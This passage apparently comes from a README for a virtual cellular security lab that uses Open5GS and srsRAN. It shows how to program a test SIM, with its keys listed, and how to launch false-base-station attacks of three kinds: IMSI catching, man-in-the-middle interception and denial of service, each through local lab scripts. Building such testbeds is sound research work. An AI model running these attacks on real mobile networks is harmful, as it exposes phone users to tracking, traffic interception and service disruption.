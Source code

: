 ### 2. Monitor Logs
```bash
# Legitimate BS logs
sudo journalctl -u open5gs-mmed -f

# srsRAN logs (in another terminal)
# The srsenb command will show real-time logs
```

### 3. Test UE Connection
```bash
# Program your test SIM with:
# IMSI: 001010000118896
# K: 465B5CE8B199B49FAA5F0A2EE238A6BC
# OPC: E8ED289DEBA952E4283B54E88E6183CA

# Insert SIM into test UE (phone/modem)
# UE should automatically connect to legitimate BS
# Then test handover to false BS
```

## Attack Scenarios

### IMSI Catcher Attack
```bash
# Configure attack
./ssh.sh false
sudo /vagrant/false/scripts/attack_config.sh set imsi_catcher

# Start attack
sudo /vagrant/false/scripts/start_false_bs.sh

# Monitor captured IMSIs
tail -f /tmp/imsi_captures.log
```

### Man-in-the-Middle Attack
```bash
# Configure attack
./ssh.sh false
sudo /vagrant/false/scripts/attack_config.sh set mitm

# Start attack
sudo /vagrant/false/scripts/start_false_bs.sh

# Monitor intercepted traffic
tail -f /tmp/mitm_capture.pcap
```

### Denial of Service Attack
```bash
# Configure attack
./ssh.sh false
sudo /vagrant/false/scripts/attack_config.sh set dos

# Start attack  
sudo /vagrant/false/scripts/start_false_bs.sh

# Monitor DoS effects
tail -f /tmp/dos_attack.log
```

